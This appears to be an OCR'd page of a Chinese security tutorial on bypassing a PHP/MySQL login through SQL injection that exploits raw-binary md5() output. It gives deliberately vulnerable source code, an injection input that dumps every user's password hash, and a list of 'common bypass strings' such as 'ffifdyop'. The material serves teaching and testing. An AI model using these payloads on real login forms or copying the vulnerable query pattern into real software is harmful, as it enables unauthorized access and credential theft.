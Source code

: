 ```php
<?php
$db = new mysqli("172.16.172.202", "user", "password", "www");
$username = $_POST["username"];
$password = $_POST["password"];
if (!isset($username) or !isset($password)) {
    return false;
}

$username = addslashes($username);
$password = addslashes($password);
$query = 'SELECT id,username,password FROM test WHERE password="' . md5($password, true) . '" and username="' . $username . '"';

var_dump($id);
var_dump($username);
var_dump($password);
var_dump($query);

$result = $db->query($query);

if ($result->num_rows) {
    while ($row = $result->fetch_assoc()) {
        echo "id:" . $row["id"] . " username:" . $row["username"] . " password:" . $row["password"] . "<br>";
    }
}
$db->close();
?>
```

传入`username= or 1=1-- &password=128`

```php
string ' or 1=1-- ' (length=10)
string '128' (length=3)
string 'SELECT id,username,password FROM test WHERE password="v�an���l���q��\" and username=" or 1=1-- "' (length=97)
id:1 username:a password:962012d09b8170d912f0669f6d7d9d07
id:2 username:b password:912ec803b2ce49e4a541068d495ab570
id:3 username:c password:fd2cc6c54239c40495a0d3a93b6380eb
id:4 username:d password:81dc9bdb52d04dc20036dbd8313ed055
```

常用的绕过字符串

```php
<?php
var_dump(md5("128",true));
var_dump(md5("ffifdyop",true));
var_dump(md5("129581926211651571912466741651878684928",true));
?>
```

```
string 'v�an���l���q��\' (length=16)
string ''or'6�]��!r,��b' (length=16)
string '�T0D��o#��'or'8' (length=16)
```